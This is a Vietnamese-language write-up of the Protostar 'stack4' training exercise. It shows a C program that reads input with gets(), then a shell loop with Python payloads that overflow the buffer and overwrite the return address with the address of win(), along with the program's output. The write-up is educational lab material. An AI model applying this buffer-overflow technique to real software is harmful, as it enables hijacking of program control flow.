

# **stack4**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

New knowledge:
- 0

## Target
Ghi đè return address khi kết thúc hàm main thành địa chỉ của hàm win()

## Vulnerability
gets()

## Recon

```

```

## Exploit
- Địa chỉ hàm win():
```
:> afl~win
0x080483f4    1 20           sym.win
```

- Disassembly main:


- Phân tích main:



- Phân tích stack:


=> viết script để chạy chương trình __16 = 2^4__ lần với input = 'a' * (68 + [0-15]) + '\xf4\x83\x04\x08':
```
user@protostar:/opt/protostar/bin$ for i in {0..15}; do echo "$i";python -c "print('a'*(68+$i) + '\xf4\x83\x04\x08')" | ./stack4; done
0
1
2
3
4
Segmentation fault
5
Trace/breakpoint trap
6
Segmentation fault
7
Segmentation fault
8
code flow successfully changed
Segmentation fault
9
Segmentation fault
10
Segmentation fault
11
Segmentation fault
12
Segmentation fault
13
Segmentation fault
14
Segmentation fault
15
Segmentation fault
user@protostar:/opt/protostar/bin$ 
```
- 4 lần chạy đầu không có lỗi do return address chưa bị ghi đè.
- segmentation fault: do return address đã bị ghi đè đến địa chỉ không hợp lệ (segmentation fault ở case successfully do chạy hàm win() xong không có return address).
- lần chạy thứ 4: lỗi do đã bắt đầu ghi đè lên return address (\x00 để terminate string ghi đè vào byte đầu tiên)
- lần chạy thứ 5: bắt đầu ghi đè byte đầu tiên bởi địa chỉ hàm win().
- lần chạy thứ 8: ghi đè đầy đủ địa chỉ của hàm win() lên return address => code flow succcessfully changed. 

## Problem
- Khi chạy script trên ở máy protostar thì không có vấn đề, tuy nhiên khi chạy ở kali linux thì bị lỗi do \x80 được chuyển thãnh \x80\xc2 và tương tự các hexa lớn hơn \x80. Do \x7f = 127 là tối đa của ascii.
- script in kali linux:
```
for i in {0..15}
do
        echo $i
        python -c "import sys; sys.stdout.buffer.write(b'\x61'*(68+$i) + b'\xf4\x83\x04\x08')" | ./stack4
done
```

# References
- How to type in hex input into radare2 debug mode: https://reverseengineering.stackexchange.com/questions/21098/how-do-i-type-in-hex-input-into-radare2-debug-mode
- \x80 problem: https://bugs.python.org/issue38357